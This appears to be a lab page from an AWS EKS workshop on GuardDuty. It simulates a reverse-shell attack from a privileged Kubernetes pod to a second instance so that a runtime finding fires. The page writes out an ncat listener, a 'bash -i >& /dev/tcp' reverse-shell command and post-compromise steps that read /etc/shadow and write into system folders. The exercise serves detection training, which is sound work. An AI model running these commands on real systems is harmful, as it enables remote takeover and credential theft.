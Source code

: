 ```yaml
---
title: "Reverse Shell"
sidebar_position: 142
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following commands.

```bash
$ export RSHELL_SUBNET=$(aws ec2 describe-subnets --query 'Subnets[0].SubnetId' --filters "Name=tag:Name,Values=*SubnetPrivate*" --output text)
$ export RSHELL_IDE=$(aws cloud9 create-environment-ec2 --name reverse-shell --instance-type t2.micro --connection-type CONNECT_SSM --subnet-id $RSHELL_SUBNET --query 'environmentId' --output text)
$ sleep 60
$ export RSHELL_SG=$(aws cloudformation describe-stack-resource --stack-name aws-cloud9-rshell-$RSHELL_IDE --logical-resource-id InstanceSecurityGroup --query 'StackResourceDetail.PhysicalResourceId')
$ aws ec2 authorize-security-group-ingress --group-id $RSHELL_SG --protocol all --port 6666 --cidr 10.42.0.0/16
```

Open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged reverse-shell -- /bin/bash -c "bash -i >& /dev/tcp//6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message `pod "reverse-shell" deleted`.


If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, delete the `reverse-shell` Cloud9 IDE environment, on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ aws cloudformation list-stacks --stack-status-filter CREATE_COMPLETE --query 'StackSummaries[].StackName' | awk -F , '/reverse-shell/ {print $1}' | xargs aws cloudformation delete-stack --stack-name
```